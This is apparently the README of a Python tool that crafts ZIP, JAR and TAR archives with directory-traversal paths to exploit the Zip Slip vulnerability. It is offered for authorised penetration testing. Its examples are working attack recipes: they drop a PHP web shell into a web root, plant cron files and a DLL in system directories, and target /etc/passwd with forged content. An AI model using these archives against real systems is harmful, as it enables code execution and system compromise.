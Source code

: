 # s31zipslip - Zip Slip Vulnerability Archive Creator

A powerful tool for creating archives with Zip Slip vulnerability for authorized security testing and penetration testing purposes. Now with Windows support!

## About

s31zipslip is a Python utility designed to create archive files (ZIP, JAR, TAR, etc.) containing specially crafted paths that demonstrate the Zip Slip vulnerability (CVE-2018-1002200). This tool helps security professionals test their applications against directory traversal attacks through archive extraction.

## Features

- Support for multiple archive formats: ZIP, JAR, TAR, TAR.GZ, TAR.BZ2
- **Windows and Linux path traversal support**
- Customizable target paths and filenames
- Flexible file content specification
- Clean and intuitive command-line interface
- Comprehensive error handling

## Usage

### Basic Syntax
```bash
python3 s31zipslip.py -d TARGET_DIRECTORY -f FILENAME -o OUTPUT_FILE [-c CONTENT]
```

### Options
| Flag | Description | Example |
|------|-------------|---------|
| `-d, --directory` | Target directory path for Zip Slip | `../../../../../../../tmp/` (Linux) or `..\..\..\Windows\Temp\` (Windows) |
| `-f, --filename` | Filename to create inside the archive | `test.txt` |
| `-o, --output` | Output archive filename | `exploit.zip` |
| `-c, --content` | File content (optional) | `"Malicious content"` |

### Examples

**Linux path traversal:**
```bash
python3 s31zipslip.py -d '../../../../../../../tmp/a/' -f test.txt -o test.zip
```

**Windows path traversal:**
```bash
python3 s31zipslip.py -d '..\..\..\..\..\..\Windows\Temp\' -f test.txt -o test.zip
```

**Create a TAR.GZ archive targeting cron directory (Linux):**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/cron.d/' -f malicious.cron -o payload.tar.gz
```

**Create a JAR archive targeting Windows System32:**
```bash
python3 s31zipslip.py -d '..\..\..\..\..\..\Windows\System32\' -f malicious.dll -o exploit.jar
```

**Create a JAR archive with PHP shell content (Linux):**
```bash
python3 s31zipslip.py -d '../../../../../../../var/www/html/' -f shell.php -o exploit.jar -c '<?php system($_GET["cmd"]); ?>'
```

**Create a TAR archive with custom content:**
```bash
python3 s31zipslip.py -d '../../../../../../../etc/passwd' -f shadow -o backup.tar -c 'root:x:0:0:root:/root:/bin/bash'
```

## Supported Archive Formats

- **ZIP** (.zip)
- **JAR** (.jar)
- **TAR** (.tar)
- **TAR.GZ** (.tar.gz, .tgz)
- **TAR.BZ2** (.tar.bz2)

## How It Works

The tool creates archives containing files with malicious paths that include directory traversal sequences (`../` for Linux or `..\` for Windows). When vulnerable applications extract these archives without proper path sanitization, the files can be written to unexpected locations outside the intended extraction directory. The tool automatically detects the target platform based on the path separators used.